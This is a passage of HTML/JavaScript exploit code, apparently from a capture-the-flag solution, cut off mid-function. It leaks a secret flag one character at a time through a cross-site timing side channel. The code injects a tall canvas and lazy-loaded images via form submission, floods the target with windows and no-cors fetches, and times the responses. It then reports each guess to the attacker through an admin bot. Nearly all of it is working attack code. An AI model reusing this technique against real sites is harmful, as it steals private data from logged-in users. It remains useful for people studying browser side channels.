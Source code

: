 ``` html
        }
      }

      // fallback to linear since I am not familiar with binary search lol
      for(let i=R; i>=L; i--) {
        let c = charset[i]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          send('found: '+ flag+c)
          flag += c
          break
        }
      }
      
    }, 0)

    async function testChar(str) {
      return new Promise(resolve => {
          /*
            For 3350, you need to test it on your local to get this number.
            The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
            If starts with "A", the image should be loaded because it's in the threshold.
          */
          inp.value = str + '<br><canvas height="3350px"></canvas><br>'+Array.from({length:20}).map((_,i)=>`<img loading=lazy src=/?${i}>`).join('')
          f.submit()

          setTimeout(() => {
            run(str, resolve)
          }, 500)
      })
    }

    async function run(str, resolve) {
    // if the request is not enough, we can send more by opening more window
      for(let i=1; i<=5;i++) {
        window.open(TARGET)
      }
      
      let t = 0
      const round = 30
      setTimeout(async () => {
        for(let i=0; i<round; i++) {
          let s = performance.now()
          await fetch(TARGET + '/?test', {
            mode: 'no-cors'
          }).catch(err=>1)
          let end = performance.now()
          t += end - s
          console.log(end - s)
        }
        const avg = t/round
        send(str + "," + t + "," + "avg:" + avg)

        /*
          I get this threshold(1000ms) by trying multiple times on remote admin bot
          for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
        */
        const isFound = (t >= 1000)
        if (isFound) {
          inp2.value = "0"
```